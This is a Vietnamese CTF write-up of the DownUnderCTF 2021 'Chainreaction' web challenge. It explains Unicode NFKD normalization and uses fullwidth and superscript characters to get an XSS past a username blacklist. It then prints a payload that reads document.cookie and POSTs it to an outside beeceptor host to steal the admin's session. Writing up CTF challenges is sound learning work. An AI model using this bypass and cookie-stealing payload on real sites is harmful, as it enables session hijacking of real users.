 ```yaml
---
title: Chainreaction - DownUnderCTF 2021
author: HoangND
date: 2021-09-25 15:55:00 +0700
categories: [Writeups, DownUnderCTF 2021]
tags: [xss, web, unicode normalised]
---
```


## Recon

![image](https://user-images.githubusercontent.com/61985236/134768470-0e313bc6-67b4-487a-9542-1ebcc067b6ce.png)
_Trang chủ_

Trang chủ của Chainreaction không có gì đáng bận tâm, ngoại trừ việc ảnh không load được, nhưng hiện tại vẫn không biết lí do thôi bỏ qua. Có hai button đăng ký đăng nhập. 
Ở đây các form này không khai thác được SQLi. Quan sát một chút form đăng ký

![image](https://user-images.githubusercontent.com/61985236/134768675-1fec4bb8-fc48-4249-b28e-fa60a39efc4a.png)
_Trang đăng ký_

Username không được chứa các ký tự < và >. Vậy khả năng cao có thể bypass để khai thác lỗi XSS qua username. Cũng có một điều đặc biệt bên dưới form đăng nhập làm mình chú ý

![image](https://user-images.githubusercontent.com/61985236/134768537-778e468c-5013-4c07-968d-13b121315325.png)
_Trang đăng nhập_

vậy là có trang đăng nhập riêng cho deverloper, vào luôn xem có gì hay ho

![image](https://user-images.githubusercontent.com/61985236/134768551-75408121-ca67-4966-9463-d759f69f5a25.png)
_Trang đăng nhập cho developer_

Hiểu sương sương nghĩa là nếu bạn có tài khoản thì có thể vào đường dẫn /devchat, đặc biệt hơn nếu có tài khoản admin thì có thể vào /admin. Hiện tại đương nhiên mình không thể vào trang admin được rồi, 
ngó devchat xem có gì

![image](https://user-images.githubusercontent.com/61985236/134768594-a9f1049f-714b-4279-84cf-5c907c803954.png)
_/devchat_

Vậy là có hẳn một trang public luôn đoạn chat nội bộ, đúng với mô tả của challenge 🤣🤣🤣

> Hệ thống được xây dựng bởi các sinh viên của trường đại học.
 
Đoạn chat có đề cập đến NFKD => NFKD normalised exploit. Tiếp theo tạo một tài khoản và đăng nhập, thì có thêm trang profile cho phép thay đổi thông tin cá nhân

![image](https://user-images.githubusercontent.com/61985236/134777616-375ddcc1-647c-47e6-848f-eb48744a8daa.png) 
_Trang thông tin tài khoản_

Ta thấy rằng username được hiển thị lên giao diện thông qua lời chào welcome, thử XSS ở đây xem thế nào.

![image](https://user-images.githubusercontent.com/61985236/134777639-266d3c3e-f3ed-4db0-8554-c2453e777a6f.png)

Như vậy hệ thống sử dụng blacklist để kiểm tra thông tin username. Như đã đề cập ở trên, đoạn chat có nhắc đến cái gọi là NFKD, vậy chính xác NFKD là gì và khai thác thế nào mình sẽ trình bày ngắn gọn dưới đây.

## Unicode Normalization vulnerability 

Normalization (chuẩn hóa) là quá trình thay đổi độ dài biểu diễn nhị phân đối với một ký tự cụ thể. Có hai kiểu tương đương giữa các ký tự là _Canonical Equivalence_ và _Compatibility Equivalence_ (mình không biết nên đưa về tiếng việt thế nào)
- Các ký tự tương đương theo kiểu Canonical Equivalence sẽ có cùng biểu diễn khi in hoặc hiển thị.
- Trong khi đó Compatibility Equivalence là kiểu tương đương mềm dẻo hơn khi biểu diễn của hai ký tự tương đương theo kiểu này có thể khác nhau.
Có 4 thuật toán chuẩn hóa được định nghĩa theo chuẩn Unicode: NFC, NFD, NFKD và __NFKD__, mỗi loại áp dụng kỹ thuật chuẩn hóa Canonical và Compatibility theo cách khác nhau. Bạn có thể đọc thêm về các kỹ thuật khác nhau tại Unicode.org.

Chuẩn hóa Compatibility mềm dẻo hơn do đó có thể bị hacker khai thác để vược qua blacklist. Ví dụ ký tự '⑧' sau khi được chuẩn hóa theo kỹ thuật Compatibility sẽ thành ký tự '8', như vậy hacker có thể dùng ký tự này để vượt qua blacklist chứa '8'.

Để hiểu rõ hơn về Unicode Normalization cũng như cách khai thác, bạn có thể tham khảo [tài liệu sau](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability).

## Solve challenge
Như vậy đã hiểu sơ qua về các khai thác NFKD normalization. Bắt tay vào exploit thôi, các ký tự đại diện mình sẽ cần để bypass blacklist sẽ là
- ＜(%ef%bc%9c) thay cho ký tự <
- ＞(%ef%bc%9e) thay cho ký tự >
- ⁱ (%e2%81%b1) thay cho ký tự i

Các ký tự tương đương bạn có thể tìm ở [tài liệu sau](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html).
Test thử script cơ bản, sử dụng beeceptor như một mockup server để validate. Trường mình sử dụng để XSS sẽ là username trong trang profile

```
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
</script>
```

Để bypass blacklist, mình sẽ thay thế các ký tự < > i bằng các ký tự tương đương ở trên (ký tự i để bypass chuỗi 'script'). Như vậy payload của mình sẽ là

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```
Kết quả gửi request

![image](https://user-images.githubusercontent.com/61985236/134780213-5a10d8ba-d9c7-4964-ac05-88acec404486.png)

Vậy là đã tạo được một node script để chèn javascript, bên beeceptor cũng đã nhận được request

![image](https://user-images.githubusercontent.com/61985236/134780248-c3e390d4-f033-4648-97c8-b909cb7d7b95.png)

Oke, đến đây để mạo danh admin, cần phải có được cookie đăng nhập của admin. How? Đầu tiên cần quay lại một chút trang chát chít của hội dev. Chính ông admin đã tiết lộ như sau

![image](https://user-images.githubusercontent.com/61985236/134780389-516004ed-1d2d-4b64-9d6b-8ca467f38ae5.png)

Do tính năng của trang admin chưa được hoàn thành, admin sẽ sử dụng 1 cookie tĩnh để xác thực, browser của admin chắc chắn còn lưu cookie này. Thế làm thế nào để admin mở profile tài khoản của mình để kích hoạt XSS gửi cookie về cho beeceptor? Câu trả lời nằm ở tính năng report ở trang profile

![image](https://user-images.githubusercontent.com/61985236/134780480-6e2a3b83-2fdc-4953-bad2-121450916e25.png)

Nghĩa là mình cứ ấn report là ông admin sẽ vào trang profile để check lỗi => XSS. Test nhanh kẻo nguội bằng payload sau

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var c = document.cookie;
  var xhr = new XMLHttpRequest();
  xhr.open("POST","https://hoangnd.free.beeceptor.com/exploit");
  xhr.send(c);
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```

![image](https://user-images.githubusercontent.com/61985236/134780741-24c0408b-9dce-4da6-a747-667e10a08d7b.png)
_Kết quả gửi request_

Tiếp theo là ấn report và quan sát bên beeceptor

![image](https://user-images.githubusercontent.com/61985236/134780783-21a99a0e-69dc-4e9e-bb5f-50cbeff2b536.png)

Vậy là đã lấy được cookie của admin, vào /admin lấy cờ thôi

![image](https://user-images.githubusercontent.com/61985236/134780811-72bcc33c-37a0-43c3-a85a-a9605df6b57f.png)

